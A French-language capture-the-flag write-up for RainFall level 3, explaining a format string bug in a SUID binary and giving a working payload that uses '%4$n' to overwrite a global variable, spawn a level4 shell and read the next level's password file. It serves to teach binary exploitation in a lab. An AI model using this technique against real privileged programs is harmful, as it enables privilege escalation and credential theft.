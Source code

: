 # RainFall CTF - Level3

## Reconnaissance

### Fichier trouvé
```bash
level3@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level4 users 5403 Mar  6  2016 level3
```

**Observations :**
- Exécutable avec SUID bit activé (`s` dans les permissions)
- Appartient à `level4` (propriétaire) et `users` (groupe)
- Peut être exécuté avec les privilèges de `level4`

## Analyse statique avec Ghidra

### Fonction main
```c
void main(void) {
  v();
  return;
}
```

### Fonction v (vulnérable)
```c
void v(void) {
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);              // ← VULNÉRABILITÉ FORMAT STRING
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
  return;
}
```

## Analyse des vulnérabilités

### Format String Vulnerability
- **Ligne dangereuse** : `printf(local_20c);`
- **Problème** : Devrait être `printf("%s", local_20c);`
- **Impact** : L'input utilisateur contrôle le format de `printf()`

### Condition de victoire
```c
if (m == 0x40) {  // Si m vaut 64 en décimal
    system("/bin/sh");
}
```

Il faut modifier la variable globale `m` pour qu'elle vaille `0x40` (64 en décimal).

## Reconnaissance de la variable m

### Localisation avec GDB
```bash
gdb ./level3
(gdb) b main
(gdb) p m                    # Affiche m = 0
(gdb) info variables         # Affiche l'adresse de m
```

**Résultat** : Variable `m` située à l'adresse `0x0804988c`

## Exploitation par Format String

### Test de la vulnérabilité
Localisation de l'adresse cible sur la pile :
```bash
python -c "print('\x8c\x98\x04\x08' + '0x%x ' * 20)" | ./level3
```

**Sortie :**
```
AAAA0x200 0xb7fd1ac0 0xb7ff37d0 0x804988c 0x78257830 0x25783020 ...
```

L'adresse `0x804988c` (variable `m`) apparaît à la **4ème position** sur la pile.

### Mécanisme du spécificateur %n

Le spécificateur `%n` écrit le nombre de caractères imprimés jusqu'à ce point à l'adresse spécifiée.

**Exemples de syntaxe :**
```c
printf("%s", arg1);      // Format normal
printf("%4$s", arg4);    // Utilise le 4ème argument au lieu du 1er
printf("%n", &var);      // Écrit à l'adresse fournie
printf("%4$n", &var);    // Écrit à la 4ème adresse sur la pile
```

### Construction du payload

**Objectif :** Écrire 64 dans la variable `m`

**Structure du payload :**
1. **Adresse de m** : `\x8c\x98\x04\x08` (4 octets)
2. **Padding** : `'A' * 60` (60 octets)
3. **Total** : 64 caractères imprimés
4. **Format string** : `%4$n` (écrit 64 à la 4ème position)

**Note sur l'échappement :** Dans le shell, le `$` doit être échappé : `%4\$n`

### Payload final
```bash
(python -c "print('\x8c\x98\x04\x08' + 'A' * 60 + '%4\$n')"; cat) | ./level3
```

## Séquence d'exécution

1. `fgets()` lit notre payload dans `local_20c`
2. `printf(local_20c)` interprète notre format string :
   - Affiche l'adresse et les 'A' (64 caractères total)
   - `%4$n` écrit 64 à l'adresse `0x804988c` (variable `m`)
3. La condition `if (m == 0x40)` devient vraie
4. Le message "Wait what?!" s'affiche
5. `system("/bin/sh")` lance un shell avec les privilèges de level4

## Exploitation réussie

```bash
level3@RainFall:~$ (python -c "print('\x8c\x98\x04\x08' + 'A' * 60 + '%4\$n')"; cat) | ./level3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

## Résultats

### Flag obtenu
```
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

### Accès niveau suivant
- **Utilisateur** : `level4`
- **Prochain challenge** : `/home/user/level4/`

## Notes techniques

- **Type de vulnérabilité** : Format String Vulnerability
- **Technique d'exploitation** : Écriture mémoire arbitraire via `%n`
- **Architecture** : x86 (32-bit)
- **Concept clé** : Contrôle des spécificateurs de format dans `printf()`
- **Spécificateurs utilisés** :
  - `%x` : Leak mémoire (pour reconnaissance)
  - `%4$n` : Écriture à la 4ème position de la pile
- **Calcul précis** : 64 caractères imprimés = valeur écrite par `%n`
- **Difficulité** : Intermédiaire - Introduction aux format strings

## Concepts techniques appris

### Format String Vulnerability
- Contrôle des spécificateurs de format
- Écriture mémoire arbitraire avec `%n`
- Positional arguments (`%x$`)

### Reconnaissance mémoire
- Leak d'adresses avec `%x`
- Localisation de variables sur la pile
- Calcul précis du nombre de caractères

Cette exploitation introduit les concepts fondamentaux des format string attacks, technique largement utilisée en exploitation binaire.